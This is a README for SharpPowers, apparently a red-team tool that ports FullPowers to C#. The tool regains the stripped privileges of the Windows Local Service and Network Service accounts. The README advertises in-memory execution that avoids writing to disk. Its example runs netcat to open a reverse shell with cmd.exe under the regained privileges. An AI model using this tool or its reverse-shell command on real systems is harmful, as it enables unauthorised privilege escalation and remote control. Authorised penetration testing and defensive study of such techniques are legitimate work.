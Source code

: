 # SharpPowers
A C# Implementation of itmn's <a href="https://github.com/itm4n/FullPowers">FullPowers</a>.
This will attempt to obtain the original privileges of the Network Service/Local Service account when run in a restricted context (i.e. no SEImpersonate Privilege).
Noteable, when running in non-interactive mode, the binary does not need to be dropped to disk, allowing it to be executed in memory (i.e. execute-assembly).
## How to run
```
SharpPowers.exe: C# Implementation of @it4mn's FullPowers (https://github.com/itm4n/FullPowers), allowing to run non-interactive commands without needing binary on disk
                Creator: @ret2desync
                Original Creator: @it4mn
Arguments
         -c <Command>: Command/arguments to pass to the executeable
         -f <File_To_Execute>: Specifies which executeable file to run (default is cmd.exe)
         -h : Show help menu.
         -i : Interact with the new process (Default is to run without interaction) - Note: This requires that the this binary is on disk (i.e. not run in memory)
         -x : Attempt to obtain the extended set of privileges
```
## Example run
Run netcat to spawn a reverse shell as Local Service/Network Service with original privileges.

```
SharpPowers.exe -f "D:\Tools\nc64.exe" -c "127.0.0.1 9002 -e cmd.exe"
[**] Will attempt to run: D:\Tools\nc64.exe 127.0.0.1 9002 -e cmd.exe as current user requesting privileges back without interacting with the new process
[+] New scheduled task created PID: 25828
```
## References
it4mn's blog post on the original concept <a href="https://itm4n.github.io/localservice-privileges/">here</a>.
